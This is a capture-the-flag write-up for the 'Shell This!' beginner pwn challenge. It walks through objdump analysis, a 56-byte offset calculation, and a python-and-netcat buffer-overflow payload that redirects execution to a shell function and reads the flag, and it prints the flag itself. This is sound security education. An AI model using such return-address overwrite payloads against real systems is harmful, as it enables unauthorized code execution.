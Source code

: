 # Shell This!

- **Category:** Pwn
- **Difficulty:** Beginner
- **Author:** Faith

Somebody told me that this program is vulnerable to something called remote code execution?

I'm not entirely sure what that is, but could you please figure it out for me?

```nc chal.duc.tf 30002```

**Attached files:**

- [shellthis.c](./shellthis.c)
- [shellthis](./shellthis)

## Writeup

In this challenge, we need to gain access to a remote machine to obtain the flag by connecting to it through a port that is running a program. We have access to both the source code and the executable of this program to help us find an exploit to gain access. 

Starting with the source code, we notice that there's a hanging function `get_shell`, which executes a shell program (giving us access to the machine and thus the flag), and that it prints out some messages and asks the user to input a name during its execution flow. 

This input is being read to a buffer using the `gets` function, which is vulnerable to **Buffer Overflow**. We will exploit this vulnerability to change the return address of the `vuln` function, from where the input is read, to the address of the `get_shell` function. This will cause the `get_shell` function to be executed when returning from `vuln`, instead of resuming the execution from where it was called.

For this, we need to obtain two critical pieces of information; the **address of `get_shell`**, and the **offset between the return address and the input buffer**.

### Analyzing the Executable

First, let's figure out what type of file we're dealing with. For that, we're using the `file` command.

```bash 
file shellthis
```

```bash
shellthis: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=ea93e2cb9c3a5f24ceeb30507a30155e04758666, with debug_info, not stripped
```

We now know that this file is a **64-bit ELF** executable, and that it is **unstripped**, meaning that symbols and other relevant debugging information are not discarded, making our life easier. Let's disassemble the file and focus on the `get_shell` and `vuln` functions:

```bash 
objdump -d shellthis
```

```bash
...

00000000004006ca <get_shell>:
  4006ca:       55                      push   %rbp
  4006cb:       48 89 e5                mov    %rsp,%rbp
  4006ce:       ba 00 00 00 00          mov    $0x0,%edx
  4006d3:       be 00 00 00 00          mov    $0x0,%esi
  4006d8:       48 8d 3d f9 00 00 00    lea    0xf9(%rip),%rdi        # 4007d8 <_IO_stdin_used+0x8>
  4006df:       e8 8c fe ff ff          callq  400570 <execve@plt>
  4006e4:       90                      nop
  4006e5:       5d                      pop    %rbp
  4006e6:       c3                      retq

00000000004006e7 <vuln>:
  4006e7:       55                      push   %rbp
  4006e8:       48 89 e5                mov    %rsp,%rbp
  4006eb:       48 83 ec 30             sub    $0x30,%rsp
  4006ef:       48 8d 3d ea 00 00 00    lea    0xea(%rip),%rdi        # 4007e0 <_IO_stdin_used+0x10>
  4006f6:       b8 00 00 00 00          mov    $0x0,%eax
  4006fb:       e8 60 fe ff ff          callq  400560 <printf@plt>
  400700:       48 8d 45 d0             lea    -0x30(%rbp),%rax
  400704:       48 89 c7                mov    %rax,%rdi
  400707:       b8 00 00 00 00          mov    $0x0,%eax
  40070c:       e8 6f fe ff ff          callq  400580 <gets@plt>
  400711:       90                      nop
  400712:       c9                      leaveq
  400713:       c3                      retq

...
```

The address of the `get_shell` function is **0x4006ca**, and we can see on address 0x4006eb that 0x30 bytes (48 in decimal) are being reserved in the stack for our input buffer (local variable of `vuln`). Therefore, the offset until the return address is 48 (input buffer) + 8 (previous frame pointer), **56 bytes**.

### Building the payload

After having gathered all the necessary information, the final step is to prepare the payload. We're using Python to generate the payload, consisting of 56 filler characters (to fill the offset), followed by the `get_shell` address, which will replace the return address. Since we are writing to the stack in the reverse order, we must invert the bytes' order in the address (0x4006ca => `0xca`, `0x06`, `0x40`).

```bash
python -c 'print "w"*56 + "\xca\x06\x40"'
```

```bash
wwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwww@
```

### Launching the attack

Let's send the payload to the victim machine, followed by a newline character, to end the line to be processed by `gets`, and a command to be interpreted by the shell process, should our attack be successful:

```bash
python -c 'print "w"*56+"\xca\x06\x40\nls"' | nc chal.duc.tf 30002
```
```bash
Welcome! Can you figure out how to get this program to give you a shell?
Please tell me your name: flag.txt
shellthis
```

It appears that our attempt was successful, and we now know that there are two files in the current folder of the remote machine, `flag.txt` and `shellthis`.  I'm going take a guess and assume the flag is inside `flag.txt`:

```bash
python -c 'print "w"*56+"\xca\x06\x40\ncat flag.txt"' | nc chal.duc.tf 30002
```

```bash
Welcome! Can you figure out how to get this program to give you a shell?
Please tell me your name: DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
```

Bingo, we found the flag: `DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}`

---

After looking at the [official writeup](https://github.com/DownUnderCTF/Challenges_2020_public/blob/master/pwn/shellthis/WRITEUP.md), I noticed that they used a different method for determining the offset (De Bruijn sequence) and that they used [pwntools](https://github.com/Gallopsled/pwntools) for the exploit. As my first pwn challenge, I was not yet acquainted with these methods. Next time I will surely be better prepared, now that I have some ground to dig up. 